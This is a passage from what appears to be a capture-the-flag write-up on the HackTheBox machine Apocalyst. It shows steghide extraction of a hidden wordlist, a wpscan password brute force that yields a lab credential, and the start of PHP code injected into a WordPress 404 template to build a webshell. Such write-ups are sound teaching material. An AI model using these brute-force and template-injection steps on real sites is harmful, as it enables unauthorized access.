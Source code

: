 I’ll save it and run `steghide` on it, giving an empty password, and it
extracts a file that looks like another word list:

    
    
    oxdf@parrot$ steghide extract -sf image.jpeg 
    Enter passphrase: 
    wrote extracted data to "list
    oxdf@parrot$ cat list.txt 
    World
    song
    from
    disambiguation
    Wikipedia
    album
    page
    this
    world
    Edit
    ...[snip]...
    

#### Bruteforce Password

With this wordlist, I can check to see if any are the password for the user I
identified, falaraki. I could use `hydra`, but `wpscan` has a brute forcer
made to work on WP, so I’ll give that a run:

    
    
    oxdf@parrot$ wpscan --url http://apocalyst.htb --passwords list.txt --usernames falaraki
    ...[snip]...
    [!] Valid Combinations Found:
     | Username: falaraki, Password: Transclisiation
    ...[snip]...
    

Visiting `/wp-admin`, those creds work and lead to the admin dashboard:

![image-20210205143308693](https://0xdfimages.gitlab.io/img/image-20210205143308693.png)

## Shell as www-data

### Webshell

With admin access to WP, there are many ways to get execution. The first I
usually try is to edit a theme page, by going to Appearance –> Editor:

![image-20210205143444716](https://0xdfimages.gitlab.io/img/image-20210205143444716.png)

The 404 template is a good place to start. I’ll select that on right right
side, and add some code at the top to test:

    
    
    <?php
    if (isset($_REQUEST['0xdf'])){ echo '0xdf'; }
    /**
     * The template for displaying 404 pages (not found)
     *
     * @link https://codex.wordpress.org/Creating_an_Error_404_Page
    